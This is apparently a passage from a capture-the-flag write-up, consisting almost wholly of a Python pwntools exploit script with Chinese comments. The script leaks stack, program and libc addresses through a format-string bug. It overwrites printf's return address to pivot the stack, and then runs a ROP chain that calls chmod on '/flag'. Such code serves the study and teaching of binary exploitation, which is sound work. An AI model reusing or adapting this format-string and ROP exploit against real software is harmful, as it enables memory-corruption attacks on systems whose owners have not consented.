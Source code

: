 ```python
    p.recvuntil(b"aaa")
## %146$p is stack_addr
stack_addr = int(p.recv(14),16)

## %147$p is program_addr
p.recvuntil(b"aaa")
program_addr = int(p.recv(14),16)

for i in range(157-147):
    p.recvuntil(b"aaa")
## %157%p is libc_addr
libc_addr = int(p.recv(14),16)

log.success(f"libc_addr: {hex(libc_addr)}")
log.success(f"stack_addr: {hex(stack_addr)}")
log.success(f"program_addr: {hex(program_addr)}")
program_base = program_addr - 0x1678
libc_base = libc_addr - 0x24083
libc.address = libc_base
log.success(f"libc_base: {hex(libc_base)}")
log.success(f"program_base: {hex(program_base)}")

# step 2: rop
leave_ret = 0x0000000000001689 + program_base
pop_rdi_ret = 0x00000000000016f3 + program_base
pop_rsi_r15_ret = 0x00000000000016f1 + program_base

writes = {(stack_addr-0x4b8): leave_ret,       # printf ret addr:即调用printf后的返回地址修改为leave ret
          (stack_addr-0x50): stack_addr-0x200, # rop_start  #将(stack_addr-0x50)，即rbp指向的栈空间的值，修改为stack_addr-0x200，为rop的起始地址
        }
payload = b"a".ljust(5,b"a") # stack align，对齐
# offset其实指的是 fmtstr_payload在栈中的起始地址，属于printf的第几个参数， numbwritten就是在fmtstr_payload开始前，printf已经打印了多少字节， no_dollars告诉它生成不带$符号的格式化字符串
payload += fmtstr_payload(offset=28,writes=writes,numbwritten=112,no_dollars=True)
payload = payload.ljust(0x205,b"a") # fmtstr_payload生成的长度不定，这里固定为0x200,5是前面的padding
payload += p64(0)+p64(pop_rdi_ret)+p64(stack_addr-0x200+0x8*7) + p64(pop_rsi_r15_ret) + p64(511)+p64(0)+p64(libc.symbols["chmod"]) # rop
payload += b"/flag\x00\x00\x00"
print(payload)
print(len(payload))
p.send(payload)
p.interactive()

```

<script async src="https://www.googletagmanager.com/gtag/js?id=G-C22S5YSYL7"></script>
<script>
  window.dataLayer = window.dataLayer || [];
  function gtag(){dataLayer.push(arguments);}
  gtag('js', new Date());

  gtag('config', 'G-C22S5YSYL7');
</script>